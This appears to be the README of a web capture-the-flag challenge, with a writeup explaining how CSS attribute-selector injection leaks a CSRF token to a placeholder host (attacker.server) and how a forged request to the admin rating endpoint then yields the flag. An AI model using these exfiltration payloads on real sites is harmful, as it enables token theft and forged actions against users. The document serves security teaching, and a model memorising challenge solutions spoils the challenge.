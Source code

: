 # Design COMP

**Category:** Web

**Difficulty:** Hard

**Author:** todo#7331

_Come join our homepage design competition and test out your CSS skills!_

## Description
Application asks participant to design a home page using CSS. The site exposes a playground which allows the player to 
inject arbitrary css. There is a form input on this page with a csrf token. Players may make submissions by submitting
links to the admin.

By leveraging a CSS Injection to leak the CSRF token, immediately followed by a CSRF, players can gain full marks for their submission and get the flag.

## Writeup
_The core solve can be found in solve/server.py_

1. We notice that playground will set whatever css is messaged to it regardless of origin.
2. We notice there is a CSRF token in the playground.
3. We construct a site which will post CSS (as described below) in order to leak the CSRF token.
  - Using CSS's attribute selectors we can match parts of the CSRF token. I.e. `[value^="ab"]` will match tags with values starting with `ab` and `[value$="ab"]` will match those ending with `ab`.
  - The `url()` function allows us to make outbound http calls from CSS in order to leak values over a side channel
  - We can this construct a payload that looks like `[name="csrf"][value^="a"] {background: url(http://attacker.server/Aa} }`, which will make a http request to `/Aa` if the value of the csrf input begins with `a`. and thus leak the first character
  - Next we would send `...[value^="ab"] { background: url(.../Aab) }` to find the second character, etc.
  - In order for background to render correctly we will need to set `#rater,#rater *{display: block !important}`.
  - However as the csrf input is hidden, styling will not render on it, meaning `[name="csrf"][value^="a"]{background:url(http://attacker.server)}` will not actually make an outbound request. In order to combat this, we can instead just target an adjacent sibling node (`[name="csrf"][value^="a"]~p{...}`).
4. We are able to open the site either through an iframe (given that our site is hosted on https), or by using window.open. We can then `postMessage` to send CSS to it.
5. Once we have the CSRF token we can then make a csrf request to `/admin/rate` set our score to 10.
6. This presents us with out flag.

## Running
### Configuration
A little bit of configuration is required prior to running the challenge. This can be configured through the
`chal/meta/env` file.
 - The `RECAPTCHA_SITE_KEY` and `RECAPTCHA_SECRET_KEY` need to be set to valid ReCaptcha v2 keys
 - The `EXTERNAL_HOST` should be set to the external host and port of the site. Whilst it can be left blank, this will make it possible for players to do a host spoof if the challenge is run with a dedicated IP.

### Running
The challenge can be run with `docker-compose up`
